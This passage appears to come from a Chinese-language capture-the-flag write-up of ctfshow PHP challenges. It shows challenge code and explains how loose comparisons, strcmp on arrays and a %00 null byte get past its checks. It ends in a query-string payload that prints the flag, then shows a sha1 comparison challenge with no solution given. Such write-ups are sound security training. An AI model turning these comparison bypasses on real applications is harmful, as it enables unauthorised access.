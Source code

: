```php
?>
```

- 以json形式传入
- part1要大于2021且能通过is_numeric()检测为数字：2022a
- part2要求是有5个元素的数组，且第一个元素为数组 

```php
       $pos = array_search("show", $json["a2"]);
       $pos===false?die("nope"):NULL;
       foreach($json["part2"] as $key=>$val){
           $val==="show"?die("nope"):NULL;
       }
```

这里利用弱比较的特性：字符串与0/true弱比较相等即可：`"a2":true`，不传入的话则为0，也能通过

```php
$c=@$_GET['c'];
$d=@$_GET['d'];
if(@$c[1]){
   if(!strcmp($c[1],$d) && $c[1]!==$d){
       eregi("3|1|c",$d.$c[0])?die("nope"):NULL;
       strpos(($c[0].$d), "ctfshow")?$v3=1:NULL;
   }
}
if($v1 && $v2 && $v3){
   include "flag.php";
   echo $flag;
}
```

- 要求$c[1]和$d不等，strcmp为弱比较
- eregi检测的是$d.$c[0]，可以令$d=%00截断
- 那么再传值$c[1]为数组，数组和字符串比较不等
- 令$c[0]="ctfshow"

最终：

```
?data={"part1":"2022a","part2":[[1],2,3,4,5],"a2":true}&c[0]="ctfshow"&c[1][]=&d=%00
```



## 720-sha1绕过

```php
<?php
error_reporting(0);
include "flag.php";

if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else{
    highlight_file(__FILE__);
}
```
